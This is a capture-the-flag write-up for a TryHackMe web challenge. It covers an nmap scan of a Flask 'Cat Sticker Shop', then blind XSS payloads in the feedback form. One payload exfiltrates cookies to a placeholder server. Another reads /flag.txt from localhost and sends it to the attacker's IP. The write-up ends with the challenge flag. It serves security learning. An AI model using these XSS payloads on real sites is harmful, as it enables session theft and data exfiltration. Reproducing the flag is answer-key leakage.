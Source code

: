 # The Sticker Shop Write-up

<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1718377390091" width="200" height="200">

## Recon 

### NMap

`nmap -sC -sV 10.10.225.208`

    PORT     STATE SERVICE    VERSION
    22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
    |   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
    |_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
    8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
    |_http-title: Cat Sticker Shop
    |_http-server-header: Werkzeug/3.0.1 Python/3.8.10
   
Main page:

![image](https://github.com/user-attachments/assets/5bf7d47e-5961-4f0d-aa74-8a46616f41e8)

Feedback page:

![image](https://github.com/user-attachments/assets/df705f0c-d600-4d20-a7d3-cf840ce07851)

![image](https://github.com/user-attachments/assets/578220e9-ebec-47e1-b71c-f66cfa5ebad1)

`/flag.txt` page:

![image](https://github.com/user-attachments/assets/cea7bd48-2e42-4ac2-bb23-fa0f91da8e38)

## Exploitation

### Blind XSS

    <script>fetch('https://your-server.com/log?cookie=' + document.cookie);</script>

![image](https://github.com/user-attachments/assets/0f6f276e-62da-48bd-81fd-50208912489a)

![image](https://github.com/user-attachments/assets/7c83df1a-70f9-4927-8f9c-289b3c8da2a8)

Let's try to read flag!

The exploitation consisted of fetching sensitive data from the local host via `fetch` and sending it to an external server via another `fetch` request.

Payload:

    '"><script>
      fetch('http://127.0.0.1:8080/flag.txt')
        .then(response => response.text())
        .then(data => {
          fetch('http://<YOUR-IP-ADDRESS-tun0>:8000/?flag=' + encodeURIComponent(data));
        });
    </script>

Open local python server and use XSS payload!

`python3 -m http.server <PORT>`

![image](https://github.com/user-attachments/assets/162820d2-6add-49e6-b546-2f9738ebb0e3)

Now, we can get the flag!

![image](https://github.com/user-attachments/assets/69d38d01-7b08-421b-98ea-d2f4f7434f67)

FLAG:

    THM{83789a69074f636f64a38879cfcabe8b62305ee6}
